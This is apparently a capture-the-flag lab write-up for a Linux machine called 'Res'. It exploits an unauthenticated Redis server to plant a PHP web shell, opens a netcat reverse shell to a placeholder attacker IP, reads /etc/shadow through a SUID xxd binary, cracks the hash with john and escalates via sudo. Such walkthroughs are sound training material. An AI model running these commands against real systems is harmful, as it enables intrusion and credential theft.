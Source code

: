 ```yaml
---
title: "Res"
tags:
  - Easy
  - Linux
  - nmap
  - redis
  - xxd
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

### [ Scan the machine, how many ports are open? ]

As always, we start off with a `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

**Results:**

![screenshot1](../assets/images/res/screenshot1.png)

The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this [website](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) which teaches us how to obtain Remote Code Execution via a Redis server:

![screenshot2](../assets/images/res/screenshot2.png)

We can connect to the Redis server using `redis-cli` (Installation: `sudo apt install redis-tools`):

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!

![screenshot5](../assets/images/res/screenshot5.png)

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**

![screenshot3](../assets/images/res/screenshot3.png)

From the webpage, we know that the web server is running **Apache**. The root directory of Apache servers is **/var/www/html**.

We can then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:

![screenshot4](../assets/images/res/screenshot4.png)

Nice! It works :smile: 

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the **cmd** parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=ATTACKER_IP PORT -e /bin/bash`

![screenshot6](../assets/images/res/screenshot6.png)

And we're in!

Visiting the **/home** directory, we can see that there is one other account: **vianka**.

The user flag can be found in vianka's home directory:

![screenshot7](../assets/images/res/screenshot7.png)

---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through Vianka's files yielded nothing of interest. There was also nothing useful in directories like **/opt** and **/tmp**.

Next, I decided to search for SUID-bit set files:

```
find / -type f -perm /u=s 2>/dev/null
```

**Results:**

![screenshot8](../assets/images/res/screenshot8.png)

We have an interesting file: `xxd`

Looking on [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), we can find the following way to exploit this program:

![screenshot9](../assets/images/res/screenshot9.png)

It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

![screenshot10](../assets/images/res/screenshot10.png)

And we have found Vianka's hashed password (at the bottom).

We then use `john` to crack the password.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

**Results:**

![screenshot11](../assets/images/res/screenshot11.png)

Password: **beautiful1**

---

### [ Escalate privileges and obtain root.txt ]

We can now log into Vianka's account.

![screenshot12](../assets/images/res/screenshot12.png)

Let's check Vianka's **sudo privileges**:

```
sudo -l
```

![screenshot13](../assets/images/res/screenshot13.png)

Turns out Vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`.

```
sudo cat /root/root.txt
```

![screenshot14](../assets/images/res/screenshot14.png)

